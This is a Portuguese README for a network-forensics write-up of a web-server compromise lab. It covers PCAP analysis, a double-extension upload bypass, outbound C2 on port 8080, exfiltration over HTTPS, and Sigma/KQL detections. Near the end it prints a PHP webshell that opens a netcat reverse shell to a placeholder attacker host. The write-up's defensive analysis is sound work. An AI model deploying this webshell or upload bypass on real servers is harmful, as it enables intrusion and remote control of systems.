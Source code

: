 # WebStrike Network Forensics
**Autor:** Ricardo Almeida · **GitHub:** @The-Black-Needles · **Data:** 29/09/2025

## Contexto
Recebi um **PCAP** (tráfego capturado) do **servidor web** da empresa. Meu objetivo foi **confirmar um possível comprometimento**, entender **como** aconteceu e produzir **evidências, detecções e recomendações** acionáveis.

## Como conduzi a investigação (meu raciocínio)
1) **Mapeei os hosts e fluxos** no PCAP (Wireshark → *Statistics > Endpoints*).
2) **Contextualizei a origem** com **GeoIP** do IP externo suspeito.
3) **Busquei POST multipart** (upload) e indícios de **dupla extensão** em `filename=`; observei uma primeira tentativa falha e uma segunda bem-sucedida com `*.jpg.php` (exemplo genérico).
4) **Inspecionei o script** para confirmar **reverse shell** e **conexão de saída**.
5) **Procurei exfiltração** (picos de bytes **HTTP/HTTPS**) e padrões de automação.
6) **Consolidei evidências** em **timeline**; criei **regras Sigma/KQL** e **relatórios** técnico/executivo com recomendações.

## Principais achados (generalizados)
- **Entrada:** *Upload* malicioso via **dupla extensão** (`.jpg.php`) contornando validação.
- **Pós-exploração:** **Reverse shell** com **conexão de saída :8080** para IP externo.
- **Exfiltração:** **POST** em **443** com volume anômalo sugerindo envio de dados sensíveis.

## Recomendações objetivas (24–72h)
- **Bloquear IoCs** e saídas **:8080** não justificadas.
- **WAF/validação de upload:** negar **dupla extensão** e inspecionar `multipart`.
- **No-exec em `/uploads`** (impedir execução de scripts em diretórios de mídia).
- Reforçar **monitoramento/detecções** (Sigma/KQL) e perfis de **volume** em 443.

---

## Objetivos de investigação 

<summary><b>O1 — Origem do tráfego suspeito (GeoIP)</b></summary>

**De onde partiu a atividade maliciosa?**  
**O que fiz:** levantei *top talkers* (Wireshark → Endpoints) e consultei **GeoIP** do IP externo.  
**Por que importa:** apoia *geo-blocking*, triagem de *threat intel* e contexto de risco.  
**Artefatos:** [`endpoints.txt`](20-network-analysis/tshark-commands.md) • [`timeline.md`](20-network-analysis/timeline.md)  

<summary><b>O2 — Identificação do agente cliente (User-Agent)</b></summary>

**Qual *User-Agent* foi usado na interação inicial?**  
**O que fiz:** reconstruí **HTTP Stream** e inspecionei cabeçalhos; comparei com perfis legítimos.  
**Por que importa:** ajuda a criar **regras de filtragem** e detectar *tooling* disfarçado.  
**Artefatos:** [`wireshark-filters.md`](20-network-analysis/wireshark-filters.md) • `report-technical.md`  

<summary><b>O3 — Mecanismo de entrada (upload malicioso)</b></summary>

**Houve **upload de script** e como passou pela validação?**  
**O que fiz:** filtrei `HTTP POST` multipart, busquei `filename=` e indícios de **dupla extensão**; confirmei sucesso do upload.  
**Por que importa:** evidencia **bypass de validação** e define **controles WAF**/hardening.  
**Artefatos:** [`web_upload_double_extension.yml`](30-detections/sigma/web_upload_double_extension.yml) • [`post_uploads.tsv`](20-network-analysis/tshark-commands.md)  
**Exemplo genérico:** `*.jpg.php` (exemplo **genérico**, não a resposta do lab).  

<summary><b>O4 — Local de armazenamento de uploads</b></summary>

**Onde o aplicativo armazena os arquivos enviados?**  
**O que fiz:** segui **redirects** (HTTP 3xx) e navegação pós-upload para inferir o diretório.  
**Por que importa:** permite **remediação** (limpeza) e **no-exec** no diretório de mídia.  
**Artefatos:** [`timeline.md`](20-network-analysis/timeline.md) • `report-technical.md`  

<summary><b>O5 — Canal de comando e controle (reverse shell)</b></summary>

**Há **conexão de saída** para C2? qual **porta**?  
**O que fiz:** procurei padrões de **reverse shell** e conexões **outbound** atípicas; destaque para porta alta.  
**Por que importa:** base para **Egress Control** e detecção comportamental.  
**Artefatos:** [`reverse_shell_port_8080.kql`](30-detections/kql/reverse_shell_port_8080.kql) • `revshell.tsv`  

<summary><b>O6 — Tentativa de exfiltração</b></summary>

**Houve **envio de dados sensíveis** via HTTP/HTTPS?**  
**O que fiz:** busquei **POST/PUT** com **alto volume** e padrões de `curl`/automação; sinalizei artefatos sensíveis (ex.: `/etc/passwd` como **exemplo genérico**).  
**Por que importa:** prioriza **resposta a incidentes** e criação de **regras de exfil**.  
**Artefatos:** [`web_exfil_high_volume.kql`](30-detections/kql/web_exfil_high_volume.kql) • `http_posts.tsv`  

---

## Como replicar (dados sintéticos)
Os artefatos abaixo incluem **consultas**, **regras** e **amostras sintéticas** para reproduzir consultas e visualizar o método, **sem** expor dados do laboratório.

- `20-network-analysis/` — filtros/extrações e timeline
- `30-detections/` — Sigma & KQL
- `50-reports/` — relatórios (técnico + executivo)

> **Licença:** MIT (apenas para o meu conteúdo autoral).  
> **Atribuição:** cenário inspirado no WebStrike Lab (link oficial na seção *references*).

---

## Análise do webshell (padrão de reverse shell — generalizado, sem spoilers)

Durante a inspeção do artefato de upload (webshell), identifiquei um **padrão clássico de reverse shell** em PHP
que orquestra FIFO em `/tmp` e inicia um shell interativo encaminhado via `nc` (*netcat*) para um **IP externo** e **porta alta**.

> **Snippet generalizado (placeholder):**
```php
<?php
system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 8080 >/tmp/f");
?>
```

- O comando `nc` indica **conexão de saída** para o **controlador** (C2).  
- A **porta-alvo** (no exemplo: **8080**) é um indicativo útil para **Egress Control** e detecção comportamental.
- Para fins de **ética/no-spoilers**, o endereço IP real foi substituído por `<ATTACKER_IP>`.

**Detecções relacionadas**
- [`reverse_shell_port_8080.kql`](30-detections/kql/reverse_shell_port_8080.kql) — monitoramento de conexões de saída para 8080.
- [`reverse_shell_nc_command.yml`](30-detections/sigma/reverse_shell_nc_command.yml) — detecção de *payloads* de upload contendo sequência de **FIFO + /bin/sh + nc** (quando o *logsource* captura corpo da requisição).
